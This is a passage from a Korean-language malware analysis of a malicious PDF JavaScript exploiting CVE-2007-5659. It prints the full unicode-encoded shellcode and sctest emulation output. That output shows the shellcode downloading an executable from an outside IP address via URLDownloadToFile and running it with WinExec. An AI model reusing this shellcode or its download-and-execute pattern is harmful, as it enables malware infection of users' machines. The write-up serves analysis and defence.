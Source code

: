 결과적으로 해당 악성 자바스크립트는 CVE-2007-5659 취약점을 사용해서 쉘코드를 실행하도록 구성되어 있음.

### 4-5 쉘코드 분석
`
$ cat shellcode_unicode 
%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036
`
<br><br>
다음 쉘코드를 분석하기 위해 exe파일로 변환하여 분석하는 방법을 사용함. 자바스크립트에서 핵심이 되는 쉘코드를 추출하여 shell_unicode에 저장함.

```shell
cat shellcode_unicode | unicode2raw > shellcode.raw
cat shellcode.raw | sctest -Svs 10000000 > sctest-out.txt
more sctest-out.txt
verbose = 1
Hook me Captain Cook!
userhooks.c:132 user_hook_ExitThread
ExitThread(-1)
stepcount 314321
HMODULE LoadLibraryA (
     LPCTSTR lpFileName = 0x00417193 => 
           = "URLMON";
) = 0x7df20000;
UINT GetSystemDirectory (
     LPTSTR lpBuffer = 0x00416c1e => 
           = "c:\WINDOWS\system32";
     UINT uSize = 255;
) =  19;
ERROR  DeleteFile (
     LPCTSTR lpFileName = 0x00416c1e => 
         none;
) =  -1;
HRESULT URLDownloadToFile (
     LPUNKNOWN pCaller = 0x00000000 => 
         none;
     LPCTSTR szURL = 0x0041719a => 
           = "http://78.109.30.5/count/005AD56F/load.php?pdf=a684eceee76fc522773286a895bc8436";
     LPCTSTR szFileName = 0x00416c1e => 
           = "c:\WINDOWS\system32\~.exe";
     DWORD dwReserved = 0;
     LPBINDSTATUSCALLBACK lpfnCB = 0;
) =  0;
UINT WINAPI WinExec (
     LPCSTR lpCmdLine = 0x00416c1e => 
           = "c:\WINDOWS\system32\~.exe";
     UINT uCmdShow = 0;
) =  32;
void ExitThread (
     DWORD dwExitCode = -1;
) =  0;
```